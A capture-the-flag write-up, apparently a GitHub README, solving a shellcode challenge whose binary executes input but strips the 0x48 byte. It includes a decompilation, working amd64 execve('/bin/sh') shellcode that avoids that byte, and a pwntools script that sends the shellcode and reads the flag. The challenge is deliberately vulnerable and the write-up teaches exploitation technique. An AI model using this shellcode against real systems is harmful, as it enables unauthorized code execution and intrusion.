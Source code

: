 # level-1

## Introduction

A pwnable passed down from my mentor, @huckfinn. This problem focuses on
creating shellcode with certain bad bytes. The objective is to get a shell
without using the hex byte `\x48`.

## Information Gathering

### Hint #1

> This program will literally do anything you want it to do (as long as you
don't use the `\x48` byte).

```shell
$ checksec ./level-0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Dynamic

This program behaves in the same manner as the previous [level][level].

### Static

We threw the program in Ghidra and this was the result after some cleanup.

```c
int main(void){
  code *__buf;
  ssize_t sVar1;
  code *pcVar2;

  init_chal();
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  sVar1 = read(0,__buf,0x1000);
  if (sVar1 != 0) {
    pcVar2 = __buf;
    do {
      if (*pcVar2 == (code)0x48) {
        *pcVar2 = (code)0xff;
      }
      pcVar2 = pcVar2 + 1;
    } while (pcVar2 != __buf + sVar1);
  }
  (*__buf)();
  return 0;
}
```

This is the same as the previous [level][level] except for the do-while loop
that compares each byte with `\x48` and replaces it with `\xff`. Below is a
rehash of the same description as [level-0][level]:

Notably, the `main` function is `mmap`ing the region of memory where `buf` is
with the following arguments: `mmap(addr=NULL, length=0x1000, prot=0x7,
flags=0x22, fd=0xfffffff, offset=0x0)`

The prot (protections) argument describes the desired memory protection of the
mapping. It is a bitwise OR of one or more of the following flags:

```c
#define PROT_READ	  0x1		/* page can be read */
#define PROT_WRITE    0x2       /* page can be written */
#define PROT_EXEC	  0x4		/* page can be executed */
#define PROT_SEM	  0x8		/* page may be used for atomic ops */
#define PROT_NONE	  0x0		/* page can not be accessed */
```

With a prot bitmask of 0x7 the memory location is set to read, write, and
execute. The combination of the latter two are particularly interesting when we
see that it is actually executing the contents of `buf` as though there are
instructions there. There currently aren't, but could there be?

Yes! We just need to send the program some shellcode to execute.

## Strategy

We attempted to use the shellcraft module to generate the shellcode, just as in
[level-0][level]. There is an [encoding][encoders] functionality such that we
could specify that `\x48` is a bad byte and should be avoided. Unfortunately,
we were unable to create shellcode this way. The module simply reported that it
was not possible with its current functionality. Compiling bits of assmembly and
taking a look at the opcodes for amd64, we found that the `\x48` byte was
generally created when we tried to use the `mov` instruction into one of the
base amd64 registers. We learned that we could avoid the `\x48` byte by using
the `movabs` instruction into one of the amd64 extended registers (ie, `$r11`).
We thus used the following shellcode, inspired by a [blog post][blog] we found
that was attempting to create really short shellcode.

```asm
0:   31 f6                   xor    esi,esi                 /* zero out register */
2:   56                      push   rsi                     /* push to top of stack */
3:   49 bb 2f 62 69 6e 2f    movabs r11,0x68732f2f6e69622f  /* move /bin/sh into r11 */
a:   2f 73 68
d:   41 53                   push   r11                     /* /bin/sh top of stack */
f:   54                      push   rsp                     /* memory location of /bin/sh top of stack */
10:   5f                     pop    rdi                     /* edi now contains the address of /bin/sh */
11:   b8 00 00 00 00         mov    eax,0x0                 /* mov 0 into rax */
16:   b0 3b                  mov    al,0x3b                 /* move execve sys call into rax */
18:   0f 05                  syscall                        /* call our execve */
```

We added this to our solution and created the byte string needed to send to the
program:

```python
shellcode = """
/* push argument into rsi (second argument to execve) */
xor esi, esi                /* zero out register */
push rsi                    /* push to top of stack */

/* set up first argument */
mov r11, 0x68732f2f6e69622f /* move /bin/sh into r11 */
push r11                    /* /bin/sh top of stack */
push rsp                    /* memory location of /bin/sh top of stack */
pop rdi                     /* edi contains the address of /bin/sh */

/* set up third argument */
mov eax, 0x0                /* mov 0 into rax */
mov al, 0x3b                /* move execve sys call into rax */

/* call our execve */
syscall
"""

io.sendline(asm(shellcode))

# Get the flag.
io.sendline('cat flag.txt')
flag = io.recv()
```

## The Solution

You should be able to run the script like so and get the flag!

```shell
$ python3 ./solve.py
[+] Flag: b'flag{AreYouTryingToTellMeICanDodgeBullets?}\n'
[+] Time: Time: 0.10761523246765137
```

## Mitigations

I won't even discuss exploitation mitigations since the develops purposefully
made `buf` RWX. :)

[encoders]: https://docs.pwntools.com/en/stable/encoders.html
[level]: /random-pwnables/level-0/README.md
[blog]: https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html
